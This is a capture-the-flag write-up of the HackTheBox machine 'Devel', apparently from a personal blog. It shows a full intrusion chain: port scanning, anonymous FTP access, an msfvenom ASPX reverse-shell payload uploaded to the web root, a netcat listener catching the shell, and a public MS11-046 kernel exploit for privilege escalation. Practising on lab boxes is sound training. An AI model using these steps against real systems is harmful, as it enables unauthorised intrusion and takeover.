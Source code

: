 ```yaml
---
title: HTB -- Devel
date: 2022-01-29
layout: single
header:
  teaser: assets/images/htb/devel/teaser.png
excerpt: Devel is another box from the TJNull list offering an intro to windows exploitation. It doesn't have many moving parts but can be challenging to overcome if not experienced with windows privesc or playing with ftp, making it the perfect playground. 
classes: wide
categories:
  - hackthebox
tags:
  - hackthebox
  - OSCP
  - ftp
  - aspx
---
```


### Summary
<img src="/assets/images/htb/devel/teaser.png" width="80" height="80"/>
<img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/windows8/windows8-original.svg" width="80" height="80"/>

Devel is another box from the TJNull list offering an intro to windows exploitation. It doesn't have many moving parts but can be challenging to overcome if not experienced with windows privesc or playing with ftp, making it the perfect playground. 

## Rustscan
```
# Nmap 7.91 scan initiated Sun Nov 14 09:57:57 2021 as: nmap -vv --reason -Pn -A --osscan-guess --version-all -p- -oN /home/kali/HTB/devel/results/devel.htb/scans/_full_tcp_nmap.txt -oX /home/kali/HTB/devel/results/devel.htb/scans/xml/_full_tcp_nmap.xml devel.htb
Nmap scan report for devel.htb (10.10.10.5)
Host is up, received user-set (0.018s latency).
Scanned at 2021-11-14 09:57:58 EST for 164s
Not shown: 65533 filtered ports
Reason: 65533 no-responses
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 14 10:00:42 2021 -- 1 IP address (1 host up) scanned in 164.97 seconds
```
Looks like FTP and a web server

## FTP
Anonymous login is allowed (as we know from the nmap scan showing ftp contents), but it's still worth manually investigating.
```
└─$ ftp 10.10.10.5                                              
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

Lets try making a payload and upload it. From the listed ftp files it looks like the web end is an iis server.
```
└─$ msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.14.24 LPORT=4444 -o shell.aspx 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2687 bytes
Saved as: shell.aspx
```

```
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> put shell.aspx 
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2687 bytes sent in 0.00 secs (98.5586 MB/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
01-30-22  05:36PM                 2687 shell.aspx
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

browse to `devel.htb/shell.aspx` or do a curl for it

```
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.5] 49158
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            babis                    Guest                    
The command completed with one or more errors.
```
Awesome! we are on the box. Time to upload some (possibly) helpful tools over ftp, which are then placed into `c:\inetpub\wwwroot`

<p class="notice--info">Remember to put FTP in binary mode when transferring files!</p>

## Enumeration

Normally enumeration would delve into running `winpeas` and investigating leads but the humble `systeminfo` gives us all we need.
```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          30/1/2022, 5:23:11 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.469 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.559 MB
Virtual Memory: In Use:    582 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::23c
```
Windows 6.1.7600, or a branch of windows 7. With linux boxes you typically see few kernel privescs, but for windows they are the golden standard (especially with aged boxes).

ExploitDB shows a [privesc for windows 6.1.7600](https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/40564.c). We can be lazy and [just try a precompiled version](https://github.com/abatchy17/WindowsExploits).

FTP over MS11-046 and...

![](/assets/images/htb/devel/win.png)

WIN!
